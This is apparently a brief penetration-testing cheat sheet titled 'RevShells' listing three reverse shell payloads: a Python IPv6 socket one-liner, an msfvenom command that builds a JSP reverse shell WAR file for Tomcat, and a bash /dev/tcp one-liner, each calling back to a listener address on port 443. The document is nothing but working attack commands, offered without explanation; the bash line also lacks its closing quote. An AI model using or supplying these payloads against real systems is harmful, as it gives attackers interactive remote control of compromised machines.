 # RevShells

## Python IPv6

```null
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:4::1000",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);';
```

## Tomcat WAR

```null
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.4 LPORT=443 -f war -o pwned.war
```

## Bash

```null
bash -c 'bash -i >& /dev/tcp/10.10.16.11/443 0>&1
```

